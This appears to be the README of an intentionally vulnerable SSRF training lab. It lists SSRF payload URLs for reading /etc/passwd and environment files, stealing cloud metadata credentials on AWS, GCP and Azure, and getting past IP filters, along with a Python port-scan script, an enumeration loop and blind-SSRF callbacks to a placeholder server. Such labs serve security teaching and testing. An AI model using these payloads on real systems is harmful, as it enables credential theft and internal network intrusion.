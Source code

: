 # SSRF (Server-Side Request Forgery) Lab

## Description
This lab demonstrates Server-Side Request Forgery vulnerabilities where an attacker can make the server perform requests to internal or external resources. SSRF can lead to data exposure, internal network scanning, and cloud metadata access.

## Access
- **Main Application**: http://localhost:8091
- **Internal Service**: Only accessible from within the Docker network

## Vulnerability Details
The application accepts URLs from users and fetches their content, but fails to properly validate and restrict the URLs, allowing access to:
- Internal services
- Cloud metadata endpoints
- Local files (via file:// protocol)
- Internal network resources

## SSRF Attack Vectors

### 1. Internal Network Scanning
```bash
# Scan internal Docker network
http://localhost:8091/fetch?url=http://172.17.0.1:80
http://localhost:8091/fetch?url=http://internal-service:80
http://localhost:8091/fetch?url=http://ssrf-internal:80
```

### 2. Local File Access
```bash
# Read local files
http://localhost:8091/fetch?url=file:///etc/passwd
http://localhost:8091/fetch?url=file:///proc/self/environ
http://localhost:8091/fetch?url=file:///etc/hosts
```

### 3. Cloud Metadata Access (AWS)
```bash
# AWS metadata endpoint
http://localhost:8091/fetch?url=http://169.254.169.254/latest/meta-data/
http://localhost:8091/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://localhost:8091/fetch?url=http://169.254.169.254/latest/user-data/
```

### 4. Cloud Metadata Access (GCP)
```bash
# GCP metadata endpoint
http://localhost:8091/fetch?url=http://metadata.google.internal/computeMetadata/v1/
http://localhost:8091/fetch?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/
```

### 5. Cloud Metadata Access (Azure)
```bash
# Azure metadata endpoint
http://localhost:8091/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01
```

### 6. Internal Docker Services
```bash
# Docker internal DNS
http://localhost:8091/fetch?url=http://host.docker.internal:80

# Other containers in the network
http://localhost:8091/fetch?url=http://vulhub-manager:3000
```

### 7. Bypass Techniques

#### URL Encoding
```bash
# Encoded localhost
http://localhost:8091/fetch?url=http://127.0.0.1
http://localhost:8091/fetch?url=http://127.1
http://localhost:8091/fetch?url=http://2130706433  # Decimal IP
http://localhost:8091/fetch?url=http://0x7f000001  # Hex IP
```

#### DNS Rebinding
```bash
# Use a domain that resolves to internal IP
http://localhost:8091/fetch?url=http://localtest.me
```

#### URL Shorteners
```bash
# Create shortened URL pointing to internal resource
http://localhost:8091/fetch?url=http://bit.ly/[shortened-internal-url]
```

#### IPv6
```bash
# IPv6 localhost
http://localhost:8091/fetch?url=http://[::1]:80
http://localhost:8091/fetch?url=http://[0:0:0:0:0:0:0:1]:80
```

## Advanced Exploitation

### 1. Port Scanning Script
```python
import requests

target = "http://localhost:8091/fetch"
internal_ip = "172.17.0.1"

for port in [21, 22, 23, 25, 80, 443, 3306, 5432, 6379, 8080, 9200]:
    url = f"{target}?url=http://{internal_ip}:{port}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            print(f"Port {port} is open")
    except:
        print(f"Port {port} is closed or filtered")
```

### 2. Internal Network Enumeration
```bash
# Scan Docker network range
for i in {1..255}; do
    curl "http://localhost:8091/fetch?url=http://172.17.0.$i"
done
```

### 3. Blind SSRF Detection
```bash
# Use external server to detect blind SSRF
http://localhost:8091/fetch?url=http://your-server.com/ssrf-test

# Use DNS lookup
http://localhost:8091/fetch?url=http://ssrf-test.your-domain.com
```

## Prevention Techniques (Not Implemented)

1. **URL Allowlisting**: Only allow specific, trusted domains
2. **Protocol Restrictions**: Limit to HTTP/HTTPS only
3. **IP Address Validation**: Block private IP ranges
4. **DNS Resolution Validation**: Resolve and validate before fetching
5. **Response Validation**: Check content-type and size limits
6. **Network Segmentation**: Isolate the application from internal services

## Common SSRF Indicators
- Requests to private IP addresses (10.x.x.x, 172.16-31.x.x, 192.168.x.x)
- Requests to localhost (127.0.0.1, ::1)
- Requests to cloud metadata IPs (169.254.169.254)
- Unusual protocols (file://, gopher://, dict://)
- DNS queries for internal hostnames

## Tools for SSRF Testing
- **SSRFmap**: Automatic SSRF fuzzer
- **Gopherus**: Generate Gopher payloads
- **Burp Suite**: Manual testing with Collaborator
- **curl**: Quick command-line testing

## Real-World Impact
- Access to internal services and admin panels
- Reading sensitive files from the server
- Stealing cloud credentials from metadata
- Pivoting to internal network
- Denial of Service
- Remote Code Execution (in some cases) 